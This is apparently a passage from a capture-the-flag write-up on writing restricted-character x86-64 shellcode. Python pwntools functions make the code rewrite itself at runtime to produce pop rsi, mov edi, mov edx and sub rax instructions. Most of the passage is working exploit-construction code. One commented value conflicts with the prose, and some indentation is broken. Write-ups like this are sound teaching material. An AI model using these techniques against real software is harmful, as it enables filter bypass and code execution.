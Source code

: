 Let us examine how we set the registers.

As previously mentioned, we can set rsi by adding ``0xf*6+0x4``. And then,
repeat the instruction write two more times. Notice we had to pad ``\x00``
between instructions to prevent unintended instructions.

```python  
def pop_rsi():  
   # pop rsi = 0x5e  
   # 0x5e = 0xf*6+0x4  
   rsi_pop = asm('add al, 0xf')*6  
   rsi_pop += asm('add al, 0x4')  
   rsi_pop += asm('add dword ptr [rip], eax')  
   rsi_pop += b'\x00'*1  
   rsi_pop += asm('add dword ptr [rip], eax')  
   rsi_pop += b'\x00'*1  
   rsi_pop += asm('add dword ptr [rip], eax')  
   rsi_pop += b'\x00'*1  
log.info('> (pop rsi)*3 shellcode : (%i bytes)' % len(rsi_pop))  
   return rsi_pop  
```

Next, we write ``mov rdi, 0x0`` by starting at ``eax=0x5e`` and adding up
``0x5e+0xf*6+0x7==0xbf``.

```python  
def zero_edi():  
   # mov rdi = 0xbf  
   # (0xbf=0xba+0x5)  
   edi_zero = asm('add al, 0xf')*6  
   edi_zero += asm('add al, 0x7')  
   edi_zero += asm('add dword ptr [rip], eax')  
   edi_zero += b'\x00'*5  
log.info('> (mov edi, 0x0) shellcode : (%i bytes)' % len(edi_zero))  
   return edi_zero  
```

We then repeat for ``mov edx, 0x1fb (0x1fbba)`` by adding up
eax``01fbba=0xbf+0xf0e0f+0xf*15+0xb``

```python  
def big_edx():  
   # 0:   ba fb 01 00 00          mov    edx, 0x1fb'  
   # (0x0f0fba=0xbf+0xf0e0f+0xf*15+0xb)  
   edx_big = asm('add eax, 0xf0e0f')  
   edx_big += asm('add al,0xf')*15  
   edx_big += asm('add al, 0xb')  
   edx_big += asm('add dword ptr [rip], eax')  
   edx_big += b'\x00'*5  
log.info('> (mov edx, 0x1fb) shellcode : (%i bytes)' % len(edx_big))  
   return edx_big  
```

And finally we zero out rax with ``sub rax, rax (0xc02948)`` by adding
``0xc02948=0x01fbba+0xf0f0f*11+0xb0f0f+0x0f0f*6+0x90f+0x30f+0xf*6+8``
